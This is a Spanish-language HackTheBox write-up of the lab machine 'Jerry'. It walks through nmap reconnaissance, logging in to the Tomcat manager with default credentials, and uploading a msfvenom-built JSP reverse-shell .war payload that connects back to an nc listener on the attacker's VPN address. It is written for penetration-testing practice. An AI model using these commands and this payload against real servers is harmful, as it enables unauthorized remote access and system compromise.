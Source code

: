 ```yaml
---
layout:   post
title:    "Write Up Jerry."
subtitle: "Starting-Point"
category:   HTB
tags:      [Easy,Windows,Upload,Tomcat,Payload,Java,RCE,Default-Credentials,Write-Up-Machine,Starting-Point,eJPT]
---
```

![list](/assets/img/jerry/Captura de pantalla (140).png){:.lead width="800" height="100" loading="lazy"}

***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconocimiento

Fase inicial donde recolectamos toda la información posible del objetivo, utilizando diferentes técnicas como:

| Caracter.                                   |
|:--------------------------------------------|
|Recopilación de tecnologuias.                |
|Dominios.                                    |
|IPs.                                         |
|Puertos.                                     |
|Servicios.                                   |
|Recopilación de metadatos, etc.              |


***
### nmap

Utizando nmap comprobamos que puertos estan abiertos.


```bash
nmap -p- --open --min-rate 5000 -sS -n -vvv -Pn 10.10.10.95 -oA allports
```
El paso anterior se debe hacer con privileguios (root).
{:.note title="Attention"}


![list](/assets/img/jerry/Kali-2022-09-08-22-00-57.png){:.lead width="800" height="100" loading="lazy"}

***
### Servicios y versiones

Una vez sabemos que puertos estan abiertos con el comandoa anterior debemos saber que versiones y servicios que corren en los mismo de ahi podremos determinara posibles vulnerabilidades.

Esto lo hacemos con el siguiente comando.


```bash
nmap -p8080 -sV -sC 10.10.10.95 -oN target
```


![list](/assets/img/jerry/Kali-2022-09-08-22-02-30.png){:.lead width="800" height="100" loading="lazy"}

El paso anterior no es nesesario ser (root).
{:.note title="Attention"}

***
## Analisis de vulnerabilidades

Uso de Investigacion web, Google Hacking,Google Dorks, recopilación de información gracias a servicios de terceros e ispeccionamos la web.

![list](/assets/img/jerry/Kali-2022-09-08-22-06-39.png){:.lead width="800" height="100" loading="lazy"}

Inpeccionamos las tecnologias de la ip ataves de la terminal o via  web esto lo hacemos con wapalizzer o whatweb.

![list](/assets/img/jerry/Kali-2022-09-08-22-04-28.png){:.lead width="800" height="100" loading="lazy"}

En google podemos bucar claves por defecto segun que tecnologias averiguemos o simplemente podemos hacer user/pass desing o (usuario y contraseñas por defecto) podemos usar burpsuite para inteceptar peticiones y averiguar mas datos pero en este caso la cxredeciales estan expuestas `user=tomcat pass=s3cret`.

![list](/assets/img/jerry/Kali-2022-09-08-22-11-20.png){:.lead width="800" height="100" loading="lazy"}

***

Ingresamos al panel de configuiaracion  e igual ispeccionamos la pagina es algo que deberemos hacer habitual en cada maquina que nos dipongamos a explotar, vemos la posibilidad de subir archivos .war, por lo que podemos explotar esa ventaja ,podreos intentar subir cualaquier archivo a modo de prueba pero no nos deja. 

![list](/assets/img/jerry/Kali-2022-09-08-22-13-45.png){:.lead width="800" height="100" loading="lazy"}

***
## Explotacion

Por lo que crearemos un payload o (carga util) con mfsvenom para cosegir una reverse shell. 

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f war > shell.war
```


El LHOST Y LPORT deberan ser la ip de tu VPN y un puerto que tu quieras. 
{:.note}


La subimos al srvidor y con el listener a la ecucha `nc -lvnp 443` damos clic donde dice el nombre de nuestra carga util lo que hara que se conecte a nuestro nc otrogandonos la reverse shell.

***
## Escalacion de privilegios

Jerry no tiene escalacion de privilegios ya que ya somos root ,pero podemos bucar la flag, este caso se ecuentar en el mismo archivo las dos flags en el escritorio.

![list](/assets/img/jerry/Kali-2022-09-08-23-24-48.png){:.lead width="800" height="100" loading="lazy"}

```bash
🎉 Felicitaciones ya has comprometido Jerry de HackTheBox 🎉
```
{:.centered}
***
Back to [Beginner Track](2022-09-12-Beginner-Track.md){:.heading.flip-title}
{:.read-more}